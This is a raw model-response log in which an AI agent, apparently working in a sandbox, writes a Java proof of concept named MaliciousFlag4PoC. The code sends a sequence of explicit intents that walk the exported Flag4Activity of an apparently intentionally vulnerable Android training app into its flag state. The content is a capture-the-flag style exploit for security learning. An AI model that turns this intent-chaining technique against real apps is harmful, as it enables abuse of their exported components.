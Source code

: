 --- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=True, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="**My Current Thought Process: Creating the Malicious Java Code**\n\nOkay, the XML manifest file for the proof-of-concept is written. Now, the next logical move is to write the Java source code that will actually *do* the malicious deed – send the intents to trigger the vulnerability. I'm going to create `MaliciousFlag4PoC.java`.\n\nThe goal is pretty straightforward: craft a Java file that, when executed, will fire off the correct sequence of intents aimed at the `io.hextree.attacksurface.activities.Flag4Activity`'s `success(this)` method. I'll define this `MaliciousFlag4PoC.java` file and then use `write_to_file` within the sandbox to safely store it in the `Android-2` directory. This is a controlled write operation; no real risks here.\n"), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'file_path': 'MaliciousFlag4PoC.java', 'content': 'package com.example.maliciousapp;\n\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport androidx.appcompat.app.AppCompatActivity;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends AppCompatActivity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        setContentView(R.layout.activity_main); // Assuming a default layout exists or is not strictly needed for intent sending\n\n        Log.d("MaliciousFlag4PoC", "Attempting to exploit Flag4Activity...");\n\n        // Step 1: Ensure INIT state (send an unknown action to reset if needed)\n        // This is optional but good for robustness if the state is not INIT initially\n        Intent resetIntent = new Intent();\n        resetIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        resetIntent.setAction("UNKNOWN_ACTION_TO_RESET_STATE");\n        startActivity(resetIntent);\n        Log.d("MaliciousFlag4PoC", "Sent reset intent.");\n\n        // Step 2: Transition to PREPARE state\n        Intent prepareIntent = new Intent();\n        prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        prepareIntent.setAction("PREPARE_ACTION");\n        startActivity(prepareIntent);\n        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION.");\n\n        // Step 3: Transition to BUILD state\n        Intent buildIntent = new Intent();\n        buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        buildIntent.setAction("BUILD_ACTION");\n        startActivity(buildIntent);\n        Log.d("MaliciousFlag4PoC", "Sent BUILD_ACTION.");\n\n        // Step 4: Transition to GET_FLAG state\n        Intent getFlagIntent = new Intent();\n        getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        getFlagIntent.setAction("GET_FLAG_ACTION");\n        startActivity(getFlagIntent);\n        Log.d("MaliciousFlag4PoC", "Sent GET_FLAG_ACTION.");\n\n        // Step 5: Trigger success(this) from GET_FLAG state (any action will do)\n        Intent triggerFlagIntent = new Intent();\n        triggerFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        triggerFlagIntent.setAction("TRIGGER_FLAG_ACTION"); // Can be any string\n        startActivity(triggerFlagIntent);\n        Log.d("MaliciousFlag4PoC", "Sent TRIGGER_FLAG_ACTION to get flag.");\n\n        // Optionally, finish this activity after sending intents\n        finish();\n    }\n}\n'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=None, finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=None, grounding_metadata=None, index=0, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='models/gemini-2.5-flash-preview-05-20', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=15454)], cached_content_token_count=15454, candidates_token_count=775, candidates_tokens_details=None, prompt_token_count=18881, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=18881)], thoughts_token_count=226, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=19882, traffic_type=None), automatic_function_calling_history=[], parsed=None)
